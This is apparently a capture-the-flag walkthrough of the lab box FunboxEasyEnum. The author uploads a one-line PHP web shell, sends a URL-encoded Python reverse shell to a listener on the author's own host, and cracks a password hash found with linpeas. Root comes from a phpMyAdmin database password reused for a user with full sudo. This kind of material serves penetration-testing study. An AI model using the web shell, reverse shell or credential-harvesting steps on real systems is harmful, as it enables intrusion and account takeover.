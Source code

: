# PG Play - FunboxEasyEnum

#### Ip: 10.129.30.102
#### Name: FunboxEasyEnum
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 192.168.182.132
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-22 14:27 CDT
Nmap scan report for 192.168.182.132
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.91 seconds                                                          
```

SCanning for idrectories we find `/mini.php`

![pg_fbee_dirs.png](../assets/funboxeasyenum_assets/pg_fbee_dirs.png)

![pg_fbee_mini.png](../assets/funboxeasyenum_assets/pg_fbee_mini.png)

We can upload a simple webshell:

```php
<?php system($_GET["cmd"]); ?>
```

![pg_fbee_cmd.png](../assets/funboxeasyenum_assets/pg_fbee_cmd.png)

And confirm execution

![pg_fbee_id.png](../assets/funboxeasyenum_assets/pg_fbee_id_.png)

Lets issues a python3 reverse shell one liner:

```
http://192.168.182.132/cmd.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.202%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

An we catch a shell back as www-data:

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.202] from (UNKNOWN) [192.168.182.132] 56982
www-data@funbox7:/var/www/html$ whoami 
whoami
www-data
www-data@funbox7:/var/www/html$ hostname
hostname
funbox7
```

We can then grab the loacl.txt flag in `/var/www`

![pg_fbee_local.png](../assets/funboxeasyenum_assets/pg_fbee_local.png)

### Privilege Escalation

Loading linpeas we find tha password hash for user oracle, which we can crack with John:

```
╔══════════╣ Users with console
goat:x:1003:1003:,,,:/home/goat:/bin/bash
harry:x:1001:1001:,,,:/home/harry:/bin/bash
karla:x:1000:1000:karla:/home/karla:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
root:x:0:0:root:/root:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
```

```
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ cat >> hash                                
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/FunboxEasyEnum]
└─$ john hash /usr/share/wordlists/rockyou.txt 
<SNIP>
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
hiphop           (?)  
```

Yet nothing came of being user oracle.

Going back to my original linpeas output we find a DB cred:

```
══════════╣ Searching passwords in config PHP files
/etc/phpmyadmin/config-db.php:$dbpass='tgbzhnujm!';
/etc/phpmyadmin/config-db.php:$dbuser='phpmyadmin';
```

I test for password reuse and see that user karla is also using this password:

```
oracle@funbox7:/home$ su karla
su karla
Password: tgbzhnujm!

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

karla@funbox7:/home$ whoami
whoami
karla
```

Running `sudo -l` we see that karla can run anything she wants as root:

```
karla@funbox7:/home$ sudo -l
sudo -l
[sudo] password for karla: tgbzhnujm!

Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```

So we can run:

```
karla@funbox7:/home$ sudo su -
sudo su -
root@funbox7:~# whoami
whoami
root
```

And grab the final flag:

![pg_fbee_root.png](../assets/funboxeasyenum_assets/pg_fbee_root.png)

Thanks for following along!

-Ryan

--------------------------------------------
